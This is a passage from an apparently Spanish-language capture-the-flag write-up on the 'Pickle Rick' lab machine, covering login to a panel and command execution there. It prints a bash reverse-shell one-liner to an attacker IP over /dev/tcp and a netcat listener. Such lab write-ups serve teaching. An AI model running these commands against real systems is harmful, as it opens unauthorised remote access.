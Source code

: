 Vemos esta palabra, vamos a asumir que es una contraseña, asi que iremos la panel de login e intentamos entrar:

![](/imagenes/PikleRick/piklerick5.png)

Hemos entrado. Podemos ver un imput para ejectuar comandos, esto no se ve nada bien, vamos a ingresar el comando **id**:

![](/imagenes/PikleRick/piklerick6.png)

Estamos ejecutando comandos en la máquina víctima. Por lo tanto, vamos a ganar acceso con el siguiente comando:

```
bash -c 'bash -i >& /dev/tcp/10.14.48.121/1234 0>&1'
```
Con el cual estamos enviandonos una consola interactiva a nuestra máquina, por lo tanto, vamos a tener `nc` escuchando las conexiones entrantes por el puerto 1234:
```
nc -nvlp 1234   
listening on [any] 1234 ...
```

Lo ejecutamos en la web:

![](/imagenes/PikleRick/piklerick7.png)
